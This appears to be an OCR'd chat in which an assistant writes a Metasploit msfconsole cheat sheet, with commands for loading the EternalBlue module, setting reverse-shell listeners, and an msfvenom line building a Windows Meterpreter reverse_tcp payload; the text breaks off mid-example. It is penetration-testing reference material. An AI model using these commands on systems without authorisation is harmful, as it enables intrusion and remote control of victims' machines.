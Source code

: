 Explain briefly and create a cheat sheet table for commands


### **MSFConsole Cheat Sheet**  
**Metasploit Framework (MSF)** is a powerful penetration testing tool, and `msfconsole` is its primary command-line interface. Below is a brief explanation and a cheat sheet of essential commands.

---

### **Brief Explanation**  
`msfconsole` provides an interactive environment to:  
- Load & manage exploits, payloads, and auxiliary modules.  
- Configure targets, set options, and execute attacks.  
- Manage sessions (e.g., Meterpreter shells).  

---

### **Cheat Sheet Table**  

| **Category**       | **Command**                          | **Description**                                      |
|--------------------|-------------------------------------|----------------------------------------------------|
| **General**        | `help`                              | Show all available commands.                      |
|                    | `banner`                            | Display a random Metasploit banner.               |
|                    | `version`                           | Show Metasploit version.                          |
|                    | `exit` / `quit`                     | Exit `msfconsole`.                                |
| **Modules**        | `search [keyword]`                  | Search for modules (exploits, payloads, etc.).   |
|                    | `use [module_path]`                 | Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
|                    | `show options`                      | Display configurable options for the current module. |
|                    | `show payloads`                     | List compatible payloads for the current exploit. |
| **Exploitation**   | `set RHOSTS [IP]`                   | Set target IP(s).                                 |
|                    | `set LHOST [IP]`                    | Set local listener IP (for reverse shells).       |
|                    | `set LPORT [port]`                  | Set local listener port.                         |
|                    | `run` / `exploit`                   | Execute the loaded module.                        |
| **Sessions**       | `sessions -l`                       | List active sessions.                             |
|                    | `sessions -i [ID]`                  | Interact with a session (e.g., Meterpreter).      |
|                    ｜　`sessions -k [ID] ｜ Kill a session． ｜
｜　Payload Generation ｜　msfvenom -p [

continue the above table


Here’s the completed **MSFConsole Cheat Sheet** table with additional essential commands, including payload generation and post-exploitation:  

---

### **Cheat Sheet Table (Continued)**  

｜　Payload Generation ｜　`msfvenom -p [payload] LHOST=[IP] LPORT=[port] -f [format] > [file]` ｜ Generate a payload (e.g., `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > payload.exe`)． ｜
｜　Listener Setup      ｜　`use exploit/multi/handler` ｜ Set up a listener for incoming connections． ｜
｜                     ｜　`set PAYLOAD [payload_path]` ｜ Match payload to generated file (e.g., `windows/x64/meterpreter/reverse_tcp`)． |

---

### **Key Notes:**  
1. **Payload Generation**:  
   - Use `msfvenom` (outside `msfconsole`) to create standalone payloads (e.g., `.exe`, `.apk`, `.php`).  
   Example: